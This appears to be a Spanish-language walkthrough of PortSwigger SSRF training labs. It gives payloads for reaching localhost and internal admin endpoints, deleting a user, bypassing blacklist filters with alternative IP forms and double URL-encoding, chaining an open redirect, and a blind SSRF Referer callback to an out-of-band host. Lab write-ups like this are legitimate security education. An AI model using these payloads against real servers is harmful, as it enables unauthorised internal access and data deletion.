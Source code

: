 # SSFR

La falsificación de solicitudes del lado del servidor (también conocida como SSRF) es una vulnerabilidad de seguridad web que permite a un atacante inducir a la aplicación del lado del servidor a realizar solicitudes a una ubicación no deseada.

En un ataque SSRF típico, el atacante puede hacer que el servidor establezca una conexión con servicios solo internos dentro de la infraestructura de la organización. En otros casos, pueden obligar al servidor a conectarse a sistemas externos arbitrarios, lo que podría filtrar datos confidenciales, como credenciales de autorización.

# Basic SSRF against the local server

Para este laboratorio nos damos cuenta que la peticion para revisar stock llama a una api 
entonces sopechamos que podemos que puede hacer peticiones a nombre del servidor


```
stockApi=http://localhost/admin/delete?username=carlos


```
Y borramos el usuario.


# Basic SSRF against another back-end system

Para este laboratorio usamos el intruder en el stock usamos el intruder con el payload brute force del 1 al 255
recordar usar el url encode.


```
stockApi=http://192.168.0.estenumerovaria:8080/admin/delete?username=carlos

```

Y borramos el usuario.

# SSRF with blacklist-based input filter

Para este lab se necesita bypasear la proteccion para que se permita acceder al /admin y posteriormente borrar un usuario:

## Local host y sus diferentes representaciones

Esta bloqueado el 127.0.0.1 entonces necesitamos usar otra representacion algunas de estas son:

```
-2130706433
-017700000001
-127.1
```
Se uso el 127.1 lo que nos hace pensar que podria ser un filtro que compara Regex. Despues se intenta meter al /admin pero esta bloqueada.

```
stockApi=http://127.1/admin
stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65

```

Entonces lo que tenemos que hacer es Url encodear seleccionando el string clic derecho -> convert selection -> URL -> url-encode-all-the Characters.
Y lo hacemos 2 veces con lo cual bypasea la regex y permite que se borre al usuario.

```
stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos

```
FIN

# SSRF with filter bypass via open redirection vulnerability

Para este lab se tienen que hacer uso de varios conceptos como:

## Open Redirect

> An open redirect vulnerability occurs when an application allows a user to control a redirect or forward to another URL. If the app does not validate untrusted user input, an attacker could supply a URL that redirects an unsuspecting victim from a legitimate domain to an attacker's phishing site.

Si intentamos hacer SSRF nos damos cuenta que no se puede pero si te das cuenta existe un boton de next item el cual tiene un path que se pasa como argumento

```
GET /product/nextProduct?currentProductId=1&path=https://ww.google.com/ HTTP/1.1

```

Si vamos a la pagina que checa el stock nos damos cuenta que tambien ve en la ruta /product:


```
stockApi=/product/stock/check?productId=1&storeId=1

```
Entonces recordando como se pasa la informacion en html(tarea eso y lo de los forms) nos da la idea que quiza podemos usar la redireccion desde aqui.
Usar el URL encode para esta peticion pero tambien observar que si visitas el /admin si lo visita y nos muestra el panel de control.


```
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
Finalmente nos damos cuenta que se se puede y borramos el usuario.

# Blind SSRF with out-of-band detection

Para este lab el el SSRF se puede generar desde la header Refer de la siguiente manera :

```
Referer: https://lk9753mlgwanxord5u7ns37zhqnib7.oastify.com

```

Referencia

> https://portswigger.net/web-security/ssrf
